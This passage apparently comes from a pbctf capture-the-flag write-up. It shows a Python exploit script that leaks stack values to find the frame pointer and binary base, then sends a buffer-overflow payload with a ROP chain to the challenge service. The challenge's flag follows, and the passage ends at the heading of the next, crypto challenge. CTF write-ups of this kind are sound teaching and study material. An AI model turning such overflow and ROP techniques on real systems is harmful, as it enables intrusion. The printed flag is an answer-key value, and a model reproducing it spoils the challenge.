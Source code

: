 ```python
    bottom_half = hex_str[4:]

    return (recover_addr(top_half), recover_addr(bottom_half))

def get_params(sc):
    raw_stack = (sc.recvuntil("Input")[:-5]).strip().decode().split("\n")
    moved_ebp = parse(raw_stack[7])[1]
    elf_base = parse(raw_stack[8])[0] - 0x1599

    return {
        "ebp": moved_ebp,
        "elf_base": elf_base
    }


def exploit(sc):
    junk = [b"a"*8*6]
    secret = p32(0x67616c66)
    payload = junk[0] + secret + b"a" * 8

    params = get_params(sc)
    elf_base = params["elf_base"]

    rop_gadgets = get_gadgets(elf_base)

    payload += p32(params["ebp"])
    payload += p32(rop_gadgets["pop_regs"])
    payload += p32(0x1337)
    payload += p32(0x31337)
    payload += p32(0xdeadbeef)
    payload += p32(rop_gadgets["pop_eax_int3_ret"])
    payload += p32(1)

    sc.recvuntil("some text: ")
    sc.sendline(payload)


if __name__ == '__main__':
    sc = create_conn()

    exploit(sc)

    sc.interactive()
    sc.close()

```

Flag: `pbctf{hmm_s0mething_l00ks_off_w1th_th1s_s3tup}`

## [Crypto]Ainissensthai
